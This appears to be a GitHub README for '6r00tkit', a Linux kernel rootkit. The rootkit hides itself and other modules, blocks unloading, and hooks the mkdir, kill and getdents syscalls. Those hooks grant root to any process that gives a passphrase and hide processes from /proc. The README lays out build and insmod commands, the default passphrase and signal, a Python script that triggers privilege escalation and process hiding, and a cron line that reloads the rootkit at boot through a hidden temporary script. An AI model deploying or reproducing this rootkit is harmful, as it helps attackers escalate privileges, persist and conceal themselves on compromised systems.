 # 6r00tkit

## Description

6r00tkit (Grootkit) is a rootkit used to hide and protect itself and other rootkits, to hide process and to set root permissions on a process (privilege escalation).

How it's works:
 - Remove itself and other rootkit from the kernel modules list
 - Use itself and other rootkit to block an unload
 - Hooks 4 syscalls
    - `mkdir`, to get the root permissions for any process you may use the passphrase in `mkdir` syscall (default passphrase is `1 4m 6r00t`)
    - `kill`, to get a hidden process you may use the special signal in `kill` syscall (default is `14600` - numbers in `1 4m 6r00t`)
    - `getdents64` to hide process (process directory in `/proc`)
    - `getdents` to hide process (process directory in `/proc`)

## Requirements

 - Linux system
 - Root permissions to load the module

## Build

```bash
wget https://github.com/mauricelambert/6r00tkit/archive/refs/heads/main.zip
unzip main.zip
cd 6r00tkit-main/
bash compile.sh
```

## Load

### Default parameters

```bash
sudo insmod ./6r00tkit.ko
```

### Add parameters

```bash
sudo insmod ./6r00tkit.ko modulename="other_rootkit" passphrase="s3cr3t" killcode=666
```

## Usages

You can use it like the following with python (or use it with any program and script, you only need to call specific syscalls with specific values):

```python
from os import mkdir, getuid, kill, listdir, getpid, system

print("PID:", getpid())
print("\n".join(listdir("/proc/")))
system("ps aux | grep python")
kill(getpid(), 14600) # i use the default signal, you should use your own signal if added as parameters on load
print("\n".join(listdir("/proc/")))
system("ps aux | grep python")

print("Current UID:", getuid())
system("whoami")
mkdir("1 4m 6r00t") # i use the default passphrase, you should use your own passphrase if added as parameters on load
print("Current UID:", getuid())
system("whoami")
```

## Persistence

You can reload the kernel module on reboot with a single cronjob, write the following content in the filename `/etc/cron.d/6r00tkit`:

```cron
@reboot root /bin/bash -c 'echo "/bin/sleep 10; /sbin/insmod /path/to/6r00tkit.ko" > /tmp/.placeholder; /bin/bash /tmp/.placeholder; /bin/rm -f /tmp/.placeholder'
```

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).